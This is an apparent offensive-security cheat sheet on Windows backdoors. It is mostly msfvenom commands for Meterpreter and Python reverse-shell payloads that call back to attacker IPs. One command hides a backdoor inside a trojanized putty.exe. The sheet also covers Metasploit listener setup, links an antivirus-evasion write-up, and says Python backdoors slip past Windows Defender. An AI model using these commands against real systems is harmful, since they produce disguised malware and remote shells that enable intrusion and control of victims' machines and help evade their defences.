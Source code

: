 ### Windows Backdoors:

#### Payloads: (No chance beacause of windows defender)

$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.110 LPORT=4242 -f exe > reverse.exe<br>
$ msfvenom -p cmd/unix/reverse_python LHOST="10.10.10.110" LPORT=4242 -f raw > shell.py

#### Payloads hidden in exe:<br>

$ msfvenom -p windows/x64/meterpreter/reverse_tcp --platform windows -a x64 LHOST=213.32.70.39 LPORT=7777 -x ../putty.exe -f exe-only -o ~/Samples/Bad/putty64-777.exe<br>

Working exploit that avoids windows defender:<br>
https://ired.team/offensive-security/defense-evasion/bypassing-windows-defender-one-tcp-socket-away-from-meterpreter-and-cobalt-strike-beacon

#### Host:

- MSFCONSOLE<br>
    - use /exploit/multi/handler<br>
	- set payload windows/meterpreter/reverse_tcp<br>
	- set LHOST [IP]<br><br>
	- set LPORT [Port]<br>
	- set ExitOnSession false<br>
	- exploit -j -z<br>
	- sessions -l<br>
	- sessions -i 2<br>
<br>
Python backdoors are safer, as they are not checked by windows defender. There is always a risk with the firewall though.
